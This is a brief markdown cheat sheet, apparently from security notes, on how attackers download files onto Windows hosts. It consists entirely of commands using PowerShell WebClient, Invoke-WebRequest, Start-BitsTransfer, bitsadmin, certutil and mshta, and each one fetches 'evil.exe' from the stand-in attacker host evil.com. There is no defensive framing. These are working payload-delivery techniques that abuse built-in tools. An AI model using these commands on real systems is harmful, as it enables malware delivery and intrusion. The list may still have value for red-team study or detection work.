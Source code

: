 # Downloading Files

Downloading files from external hosts is one of the most common things attackers do. There are several ways to do that.

## PowerShell CmdLets

```powershell
# Method 1
(New-Object System.Net.WebClient).DownloadFile("https://evil.com/evil.exe", "C:\evil.exe")

# Method 2
iwr -uri https://evil.com/evil.exe -outfile .\evil.exe

# Method 3
Start-BitsTransfer -Priority foreground -Source https://evil.com/evil.exe -Destination .\evil.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer /download /priority foreground https://evil.com/evil.exe C:\evil.exe
```

## Certutil

```powershell
certutil -urlcache -split -f https://evil.com/evil.exe .\evil.exe
```

## Mshta

```powershell
mshta https://evil.com/evil.exe
```